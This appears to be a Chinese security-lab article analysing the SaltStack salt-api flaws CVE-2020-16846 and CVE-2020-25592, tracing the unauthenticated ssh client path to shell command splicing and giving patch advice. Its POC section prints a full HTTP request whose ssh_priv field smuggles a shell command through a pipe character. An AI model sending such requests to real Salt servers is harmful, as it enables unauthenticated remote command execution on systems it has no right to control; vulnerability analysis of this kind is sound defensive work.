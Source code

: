 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/R8qw\_lWizGyeJS0jOcYXag)

**一、背景**

**漏洞概述：**

SaltStack 是一个分布式运维系统，在互联网场景中被广泛应用，有以下两个主要功能：

  •     配置管理系统，能够将远程节点维护在一个预定义的状态（例如，确保安装特定的软件包并运行特定的服务）

  •     分布式远程执行系统，用于在远程节点上单独或通过任意选择标准来执行命令和查询数据

2020 年 11 月 4 日，SaltStack 官方发布了一则安全更新公告，其中 CVE-2020-16846 和 CVE-2020-25592 组合使用可在未授权的情况下通过 salt-api 接口执行任意命令。CVE-2020-25592 允许任意用户调用 SSH 模块，CVE-2020-16846 允许用户执行任意命令。salt-api 虽不是默认开启配置，但绝大多数 SaltStack 用户会选择开启 salt-api，故存在较高风险。

**漏洞编号：**

CVE-2020-16846、CVE-2020-25592

**受影响版本：**

  •     3002

  •     3001.1, 3001.2

  •     3000.3, 3000.4

  •     2019.2.5, 2019.2.6

  •     2018.3.5

  •     2017.7.4, 2017.7.8

  •     2016.11.3, 2016.11.6,2016.11.10

  •     2016.3.4, 2016.3.6,2016.3.8

  •     2015.8.10, 2015.8.13

**二、漏洞分析及** **POC**

**漏洞分析**

截至 2020 年 11 月 11 日，补丁代码尚未与 Github 中 master 分支代码合并，故可直接从 SaltStack 官方 Github 仓库获取，目前 master 的代码版本为 3002，系统为 Mac，版本号相差较大时代码变动较大，需另作分析。

```
Salt Version:
          Salt: 3002-56-g3e269eda82
 
Dependency Versions:
          cffi: 1.14.3
      cherrypy: unknown
      dateutil: Not Installed
     docker-py: Not Installed
         gitdb: 4.0.5
     gitpython: 3.1.11
        Jinja2: 2.11.2
       libgit2: Not Installed
      M2Crypto: Not Installed
          Mako: 1.0.7
       msgpack: 1.0.0
  msgpack-pure: Not Installed
  mysql-python: Not Installed
     pycparser: 2.19
      pycrypto: Not Installed
  pycryptodome: 3.9.9
        pygit2: Not Installed
        Python: 3.8.2 (default, Sep 24 2020, 19:37:08)
  python-gnupg: Not Installed
        PyYAML: 5.3.1
         PyZMQ: 19.0.2
         smmap: 3.0.4
       timelib: Not Installed
       Tornado: 4.5.3
           ZMQ: 4.3.2
 
System Versions:
          dist: darwin 19.6.0 
        locale: utf-8
       machine: x86\_64
       release: 19.6.0
        system: Darwin
       version: 10.15.6 x86\_64
```

salt-api REST 接口默认使用 cherrypy 框架，从 run 接口的实现上可以看出通过 client 参数动态调用 NetapiClient 类中的方法。

文中指定代码位置采用以下约定：FileLocation:Classname.method()

**salt/netapi/init.py:NetapiClient.run()**

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xaVHHlibodX9ycM0gl7khgiakWg7ptb9FEHicibWR28NwBdyvdWSV9ty2uBA/640?wx_fmt=png)

low 参数为外部传入参数，salt.utils.args.format\_call 方法将参数赋值给 \*\*kwargs。

当 client 参数为 ssh 时，动态调用 salt/netapi/init.py:NetapiClient.ssh()，**该方法未采用任何鉴权**。

**salt/netapi/init.py:NetapiClient.ssh()**  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xaQ0h9tgEGPfnRykOkHw1VsjVucYguDSVpxZ2rrT3BzMfcLz714TVF6w/640?wx_fmt=png)

跟进，路径如下：  

salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd\_sync()⇒salt/client/ssh/client.py:SSHClient.\_prep\_ssh()

**salt/client/ssh/client.py:SSHClient.\_prep\_ssh()**  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xa2bibh920k7C1MremhRsEwXFP2bbJDTutLrK5iccyfBEfUGjhJlotfT5Q/640?wx_fmt=png)

该方法将 kwargs 外部可控参数更新值 opts 变量，该变量可以理解为 SaltStack 系统的环境变量，使用该变量初始化 salt.client.ssh.SSH。  

**salt/client/ssh/init.py:SSH.\_\_init\_\_()**  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xa46gdraUicrfEaVSCwXMILT5cMoM64Kju09HLibEJd85OIhJXQuicT3BLQ/640?wx_fmt=png)

priv 的值从 opts 变量中获取，并调用 salt.client.ssh.shell.gen\_key() 方法。  

**salt/client/ssh/shell.py:gen\_key()**  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xazFBEjKuYnLpOxp0YLgiaRLtciblNFpWpicyceR11qL5gxDQiaXgWm3nqdw/640?wx_fmt=png)

该方法中对命令进行拼接，并进行执行。当传入值为 **|COMMAND>{} #**即可执行 COMMAND 命令。  

**POC**

由上分析可知，POC 如下：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=\*&fun=a&roster=whip1ash&ssh\_priv=aaa|open%20/System/Applications/Calculator.app%3b
```

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0l5ZcYaVgOVooHQ3glII4xaAfvjv1obBmTsGFLZne0kDd7Uev4hbuOzA75puTdehUPoUdPn9oOyUA/640?wx_fmt=png)  

**关于复现环境**

1\. Mac 上复现需要手动创建日志文件夹、配置文件夹等，并需要手动写入相关配置。

2\. Docker 从官方环境拉取的镜像中默认没有 SSH，故执行该 poc 时 salt-api 会挂掉，经测试 3002 版本自动重启，3000.4 版本、2019.2.5 版本则不会。故当 salt-api 挂掉时，优先考虑当前机器上是否有 SSH 软件。

**三、安全建议**

1\. 尽快修复。由于官方并未放出升级包，故目前仍需要手动进行修复，这里是官方安全通告和修复补丁。

2\. 如非必须使用 salt-api，请关闭该功能。  

![](https://mmbiz.qpic.cn/mmbiz_gif/NNSr7XSrt0kCOcrTD6AuJrFbzcDaXib9OWECT2N2hiaWV3X4cxlbBQMP4jZCnIeTE3Y6QZfDibFveFId11ykqnVbw/640?wx_fmt=gif)

  

更多精彩内容点击下方扫码关注哦~

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3ODvfv2KeLxRIibuLOxGdK8E4iauMQLKA8icPdSCZzcUicdIyNrUphHLPN0dg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3ODx8dMjdZkqD0A1PoZa3qWnib0uL11eYjLoL4lKToXQNkQacCXlpu4KcA/640?wx_fmt=jpeg)

   云鼎实验室视频号

  一分钟走进趣味科技

     - 扫码关注我们 -

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3OD0blTWUw87GN3WkTjRdyGdPjcbia78pSd9iaia4Sp6cgqmMAKyNvGcenFA/640?wx_fmt=png)

  

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3ODvfv2KeLxRIibuLOxGdK8E4iauMQLKA8icPdSCZzcUicdIyNrUphHLPN0dg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3ODOPz3zLadOcKdJGLG3fE6eibvQOISHRsOHTx0JOL333jtteQicLheiabWg/640?wx_fmt=png)

 云鼎实验室互动星球

 一个多元的科技社交圈

  - 扫码关注我们 -

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0nAndJ4ozla5XpoNZ4vx3OD0blTWUw87GN3WkTjRdyGdPjcbia78pSd9iaia4Sp6cgqmMAKyNvGcenFA/640?wx_fmt=png)

  

  

  

关注云鼎实验室，获取更多安全情报

![](https://mmbiz.qpic.cn/mmbiz_png/NNSr7XSrt0mfEkibaEU8uriaORBdj9W37EhEIZlIFuzudKVafyia4vTv1q1usxN57bsdeAY4icwcKw9qJ1W4COeR4Q/640?wx_fmt=jpeg)
